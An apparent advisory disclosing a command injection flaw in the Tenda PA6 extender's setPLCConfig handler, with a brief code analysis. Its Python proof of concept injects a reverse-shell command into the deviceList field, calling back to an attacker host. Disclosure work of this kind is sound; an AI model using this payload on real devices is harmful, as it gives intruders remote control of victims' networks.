


# Tenda PA6(V1.0.1.21) Wi-Fi Powerline Extender has command injection vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tendacn.com/download/detail-3979.html

## Affected Version
V1.0.1.21
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `/goform/setPLCConfig` handler function of  `httpd`. The value of the `deviceList` parameter will be passed from `v37` to `v5`, finally to `v35`.
The value of the `v35` will be spliced ​​into the `homeplugctl remote_set....` and be excuted by `system` function, which allows an attacker to excute any command.


## POC
```python
import requests

url = "http://192.168.0.1/goform/setPLCConfig"

payload = { 
    'deviceList': '";sh -i >& /dev/tcp/192.168.38.131/9001 0>&1#<FJT@BK>'
    }

requests.request("POST", url, data=payload)
```

## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.
